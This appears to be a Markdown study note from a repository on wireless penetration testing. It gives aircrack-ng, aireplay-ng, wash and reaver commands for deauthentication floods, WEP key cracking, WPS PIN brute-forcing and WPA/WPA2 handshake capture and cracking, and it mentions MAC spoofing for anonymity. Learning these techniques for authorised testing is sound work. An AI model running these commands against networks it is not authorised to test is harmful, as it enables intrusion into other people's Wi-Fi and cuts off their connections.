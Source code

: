 # Wireless Penetration Testing

### Section 1: Requirements

You will need a wireless adapter for this section

1. [Best USB Wireless (WiFi) Adapters For Hacking 2022](https://www.youtube.com/watch?v=0lqRZ3MWPXY&lc=z23ssbjham3bzhpi004t1aokgl2ihekdkcw2nlbcvwi0rk0h00410)

2. [How to enable external Wi-Fi adapter to Virtual Box | How to add VirtualBox Extension Pack | 2020](https://www.youtube.com/watch?v=LpPlAID6LJA)

You may or may not need to perform further steps for your VM powered by virtual box to detect the wireless adapter. See my OSCP repository for more information

### Section 2: Set Up

1. Changing of MAC address for anonymity

2. Wireless Modes

3. Commands to configure wireless adapter

### Section 3: Information Gathering/Pre-connection Attacks

1. WiFi Bands (2.4GHz & 5.0GHz)

2. Packet Sniffing with `airodump-ng`

3. Traffic analysis with `wireshark`

4. Deauthentication Attack using `aireplay-ng`

    `aireplay-ng --deauth 100000000000 -a <ROUTER_BSSID> -c <TARGET_BSSID> <NETWORK_INTERFACE>`

### Section 4: WEP Gaining Access

1. WEP Theory

2. WEP Cracking (busy network)

    - Need to capture a huge amount of packets

        `airodump-ng --bssid <ROUTER_BSSID> --channel <CHANNEL_NUMBER> --write <FILE_NAME> <NETWORK_INTERFACE>`

    - Crack key from packets captured

        `aircrack-ng <FILE_NAME>.cap`

3. WEP Cracking (idle network)

    - Need to capture a huge amount of packets

        `airodump-ng --bssid <ROUTER_BSSID> --channel <CHANNEL_NUMBER> --write <FILE_NAME> <NETWORK_INTERFACE>`

    - Fake Authentication Attack to pretend to be a client connecting to router

        `aireplay-ng --fakeauth 0 -a <ROUTER_BSSID> -h <HACKER_MAC_ADDRESS> <NETWORK_INTERFACE>`

    - ARP Request Replay Attack to force AP to generate IVs to crack key

        `aireplay-ng --arpreplay -b <ROUTER_BSSID> -h <HACKER_MAC_ADDRESS> <NETWORK_INTERFACE>`

    - Crack key from packets captured

        `aircrack-ng <FILE_NAME>.cap`

### Section 5: WPA/WPA2 Gaining Access

1. WPA/WPA2 Theory

    - Need to bruteforce

2. WPS Theory

3. WPA/WPA2 Cracking (WPS enabled + configured to not use PBC)

    - Check if WPS is enabled

        `wash --interface <NETWORK_INTERFACE>`
    
    - Fake Authentication Attack to pretend to be a client connecting to router

        `aireplay-ng --fakeauth 0 -a <ROUTER_BSSID> -h <HACKER_MAC_ADDRESS> <NETWORK_INTERFACE>`

    - Bruteforce 8 digit pin using `reaver`

        `reaver --bssid <ROUTER_BSSID> --channel <CHANNEL_NUMBER> --interface <NETWORK_INTERFACE> -vvv --no-associate`

4. WPA/WPA2 Cracking (condition above not met)

    - Need to capture Handshake packets

        `airodump-ng --bssid <ROUTER_BSSID> --channel <CHANNEL_NUMBER> --write <FILE_NAME> <NETWORK_INTERFACE>`

    - Wait for client to connect to router

        > Theoretically, we should be able to perform a fake authentication attack here?

    - Deauthenticate client from router to force client to reauthenticate and to generate handshake capture by airodump-ng

        `aireplay-ng --deauth 4 -a <ROUTER_BSSID> -c <TARGET_BSSID> <NETWORK_INTERFACE>`

    - Generate wordlist/use wordlists that comes with Kali

    - Bruteforce with `aircrack-ng`

        `aircrack-ng <FILE_NAME>.cap -w <WORDLIST>.txt`

